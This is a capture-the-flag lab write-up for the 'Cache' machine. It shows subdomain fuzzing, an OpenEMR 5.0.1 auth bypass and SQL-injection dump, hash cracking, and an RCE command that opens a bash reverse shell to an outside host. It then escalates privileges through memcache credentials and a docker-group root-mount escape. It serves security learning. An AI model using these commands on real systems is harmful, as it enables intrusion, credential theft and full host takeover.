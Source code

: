 # Cache

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.211.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 10:30 EDT
Nmap scan report for 10.129.211.212
Host is up (0.0089s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Accidental Subdomain Enum

Port 80 reveals a blog like website:

<figure><img src="../../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

There's not much here, but we can add `cache.htb` to our `/etc/hosts` file since there's a banner for it on screen. I ran a `gobuster` and `wfuzz` scan on the machine. Funnily, I accidentally had a typo in my `wfuzz` command, and found a completely new domain present:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host:FUZZ.htb' --hw=973 -u http://cache.htb  /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cache.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================
                   
000010187:   302        0 L      0 W        0 Ch        "hms"
```

`hms.htb` is active on this machine. We can visit that.

### OpenEMR

The page shows us a login for OpenEMR, which is known to have a ton of vulnerabilities:

<figure><img src="../../../.gitbook/assets/image (22) (4).png" alt=""><figcaption></figcaption></figure>

We can head to the Github Repo for this software and attempt to find its version using the default files present:

{% embed url="https://github.com/openemr/openemr" %}

Visiting `sql_patch.php` reveals that this is OpenEMR 5.0.1:

<figure><img src="../../../.gitbook/assets/image (681).png" alt=""><figcaption></figcaption></figure>

This version has quite a few RCE exploits for it:

```
$ searchsploit openemr 5.0.1
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1 - 'controller' Remote Code Execution         | php/webapps/48623.txt
OpenEMR 5.0.1 - Remote Code Execution (1)                  | php/webapps/48515.py
OpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2)  | php/webapps/49486.rb
OpenEMR 5.0.1.3 - Authentication Bypass                    | php/webapps/50017.py
```

There's also an authentication bypass exploit here:

{% embed url="https://www.exploit-db.com/exploits/50017" %}

To bypass it, all we have to do is simply visit `/portal/account/register.php`, and it would treat us as logged in with a valid token. Searching for exploits led me to a [PDF](https://www.open-emr.org/wiki/images/1/11/Openemr\_insecurity.pdf) that had the vulnerability report for v5.0.1.3, and there are lot including a lot of SQL Injections.

Firstly, visiting `/portal/find_appt_popup_user.php` just works as we have 'bypassed' the login.&#x20;

<figure><img src="../../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>

For this case, the second PoC listed works best.&#x20;

<figure><img src="../../../.gitbook/assets/image (683).png" alt=""><figcaption></figcaption></figure>

Using `sqlmap`, we can enumerate and view the stuff in the database. (skipped the enumeration)

<pre><code>$ sqlmap -r req -D openemr -T users_secure --dump
<strong>Table: users_secure
</strong>[1 entry]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | &#x3C;blank> | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | &#x3C;blank>  | 2019-11-21 06:38:40 | &#x3C;blank>       | &#x3C;blank>       | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin     |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
</code></pre>

We can crack this hash in `john`.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash      
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)     
1g 0:00:00:00 DONE (2023-05-10 10:53) 5.555g/s 4800p/s 4800c/s 4800C/s lester..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have the admin password, we can do RCE.&#x20;

{% embed url="https://www.exploit-db.com/exploits/45161" %}

Remember to use `python2`.&#x20;

```
$ python2 45161.py -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1' http://hms.htb
```

<figure><img src="../../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Ash Creds

I searched all the files within `/var/www` except for OpenEMR for credentials:

```
www-data@cache:/var/www/cache.htb/public_html$ grep -iRl 'Password' ./
./login.html
./index.html
./jquery/functionality.js
```

So here's the stuff within that file:

```javascript
www-data@cache:/var/www/cache.htb/public_html$ cat ./jquery/functionality.js
$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
```

Using that password, we can `su` to `ash`.

<figure><img src="../../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

### Memcache

When we enumerate the ports that are open, we can see that port 11211 is listening:

```
ash@cache:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -            
<TRUNCATED>
```

This is the `memcache` service.

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/11211-memcache" %}

We can enumerate the items within it:

```
ash@cache:~$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211 
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

We can grab the password and `su` to `luffy`.

```
ash@cache:~$ echo "get passwd" | nc -vn -w 1 127.0.0.1 11211         
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
```

### Docker Group

`luffy` is part of the `docker` group.&#x20;

```
luffy@cache:/home/ash$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
luffy@cache:/home/ash$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        3 years ago         64.2MB
```

We can just run this command to create an Ubuntu container that is mounted on the main file system, where we have access to the container as `root`. This effectively gives us `root` access to the main file system to make `/bin/bash` an SUID binary.&#x20;

```
luffy@cache:/home/ash$ docker run -it --rm -v /:/mnt ubuntu chroot /mnt bash
root@ee809b31a278:/# id
uid=0(root) gid=0(root) groups=0(root)
root@ee809b31a278:/# cd root
root@ee809b31a278:~# ls
root.txt  run.sh  should_work
root@ee809b31a278:~# chmod u+s /bin/bash
```

Then we can exit this and get a shell with EUID of `root`.

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>
